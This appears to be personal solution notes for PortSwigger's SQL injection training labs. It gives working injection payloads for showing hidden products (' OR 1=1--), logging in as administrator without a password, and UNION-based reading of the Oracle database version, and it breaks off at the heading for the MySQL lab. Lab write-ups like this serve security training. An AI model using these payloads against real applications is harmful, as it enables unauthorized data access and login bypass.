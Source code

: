 https://portswigger.net/web-security/sql-injection 
https://portswigger.net/web-security/sql-injection/cheat-sheet

## Labs:
## 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```

## 2. SQL injection vulnerability allowing login bypass

SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```

## 3. SQL injection querying the database type and version on Oracle

 Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
 ```
 .../filter?category=Accessories'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 .../filter?category=Accessories'UNION SELECT'a', banner FROM v$version--
```

## 4. SQL injection attack, querying the database type and version on MySQL and Microsoft
